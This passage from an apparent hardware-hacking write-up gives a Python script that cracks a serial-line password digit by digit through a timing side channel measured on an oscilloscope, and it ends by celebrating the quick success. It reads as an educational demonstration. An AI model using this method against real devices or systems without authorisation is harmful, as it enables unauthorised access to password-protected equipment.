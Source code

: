```python
    data = numpy.frombuffer(rawdata, 'B')
    l = len(data)
    data = data - (16.*8)

    # It should be 16 (nb of division on the scope).
    # But 12 works better I don't known why...
    data /= 12.
    
    elem_high = [x for x in filter(lambda x: x > trig_lvl, data)]
    res = len(elem_high)/50.
    q.put(res)

if __name__ == "__main__":
    sr = serial.Serial('/dev/ttyUSB0', 9600)
    setup_oscilo()

    pwd = ""
    last = ""
    while last != b"Good password":
        longest = (None, -1)

        for c in string.digits:
            print("Trying [%s]" % (pwd + c))

            q = Queue()
            p = Process(target=mesure_time, args=(q,))
            single_triger()
            sr.write(bytes(pwd + c, "utf8"))
            p.start()

            res = q.get()
            print("Time: %f" % res)
            if res > longest[1]:
                longest = (c, res)
            p.join()
            last = sr.readline().strip()
            if last == b"Good password":
                break

        pwd += longest[0]

    print("Found password! [%s]" % pwd)
```
(You can find the instrument class in the links section bellow)

Enjoy the password cracking:

[![asciicast](https://asciinema.org/a/18588.png)](https://asciinema.org/a/18588)

Only 55 try and 26 second and your in!

For the record, there is the screen for each step:
